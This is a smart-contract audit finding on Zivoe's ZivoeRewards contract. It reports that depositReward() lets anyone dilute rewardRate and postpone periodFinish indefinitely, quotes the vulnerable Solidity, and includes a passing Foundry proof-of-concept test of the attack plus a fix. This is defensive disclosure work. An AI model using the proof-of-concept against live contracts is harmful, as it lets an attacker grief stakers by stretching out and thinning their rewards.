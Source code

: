 Large Ceramic Swan

medium

# Anyone can call `ZivoeRewards::depositReward()` to deposit the corresponding token, lower the `rewardRate` and postpone `periodFinish` indefinitely

## Summary
Anyone can call `ZivoeRewards::depositReward()` to deposit the corresponding token, lower the `rewardRate` and postpone `periodFinish` indefinitely
## Vulnerability Detail
`ZivoeRewards::depositReward()` has no call limit, anyone can deposit 1 token, reduce `rewardRate` and extend `periodFinish` infinitely
```js
@>    function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
        IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);


        // Update vesting accounting for reward (if existing rewards being distributed, increase proportionally).
        if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
            rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
        } else {
            uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
            uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
@>            rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
        }


        rewardData[_rewardsToken].lastUpdateTime = block.timestamp;
@>        rewardData[_rewardsToken].periodFinish = block.timestamp.add(rewardData[_rewardsToken].rewardsDuration);
        emit RewardDeposited(_rewardsToken, reward, _msgSender());
    }
```

### Poc
```js
// Anyone can call `ZivoeRewards::depositReward()` to deposit the corresponding token, lower the `rewardRate` and postpone `periodFinish` indefinitely
   function testAnyoneCallingZivoeRewardsDepositRewardExtendsPeriodFinishIndefinitely() public {
        uint256 amount = 1e18;
        // zvl calls addReward() and depositReward()
        mint("WETH", address(zvl), amount);
        vm.startPrank(address(zvl));
        stSTT.addReward(WETH,30 days);
        IERC20(WETH).approve(address(stSTT),amount);
        stSTT.depositReward(WETH,amount);    
        vm.stopPrank(); 
        (
            ,
            uint256 periodFinishBeforeAttack,
            uint256 rewardRateBeforeAttack,
            ,
        ) = stSTT.rewardData(WETH);

        vm.warp(block.timestamp + 15 days);
        // attacker calls depositReward() deposits 1 WETH
        mint("WETH", address(attacker), 1);
        vm.startPrank(attacker);
        IERC20(WETH).approve(address(stSTT),amount);
        stSTT.depositReward(WETH,1); 
        vm.stopPrank();
        (
            ,
            uint256 periodFinishAfterAttack,
            uint256 rewardRateAfterAttack,
            ,
        ) = stSTT.rewardData(WETH);
        // rewardRate has been reduced
        assertGt(rewardRateBeforeAttack,rewardRateAfterAttack);
        // periodFinish has been postponed
        assertLt(periodFinishBeforeAttack,periodFinishAfterAttack);
        vm.warp(block.timestamp + 29 days);
        // The original plan was 30 days, but it has now lasted 44 days and can be postponed indefinitely.
        assertGt(periodFinishAfterAttack,block.timestamp);  
    }
    // [PASS] testAnyoneCallingZivoeRewardsDepositRewardExtendsPeriodFinishIndefinitely() (gas: 230772)
```
## Impact
Anyone can call `ZivoeRewards::depositReward()` to deposit the corresponding token, lower the `rewardRate` and postpone `periodFinish` indefinitely
## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243
## Tool used

Manual Review

## Recommendation
It is recommended to add sender restrictions or amount limits
